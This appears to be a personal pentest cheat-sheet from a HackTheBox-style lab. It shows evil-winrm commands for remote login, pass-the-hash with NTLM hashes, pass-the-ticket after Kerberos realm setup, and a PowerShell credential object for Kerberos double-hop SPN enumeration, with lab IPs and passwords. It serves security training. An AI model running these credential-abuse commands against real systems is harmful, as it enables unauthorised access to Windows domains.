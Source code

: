 ```yaml
---
tags:
  - PtH
  - PtT
---
```

```shell-session
$ evil-winrm -i 10.129.201.248 -u 'Cry0l1t3' -p 'P455w0rD!' [--port <PORT>]
```
# Pass the Hash
```shell-session
$ evil-winrm -i <IP> -u <USER>[@DOMAIN] -H <NTLM-HASH>
```

# Pass the Ticket
Prerequisite: `krb5-user`
Once installed, change `/etc/krb5.conf` to include the following:
```shell-session
$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB
<SNIP>
[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
<SNIP>
```

```shell-session
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```
# Kerberos "Double-Hop"
[[klist]] can confirm if any forwardable credentials are stored.
```powershell
PS > $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
PS > $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
PS > get-domainuser -spn -credential $Cred | select samaccountname
```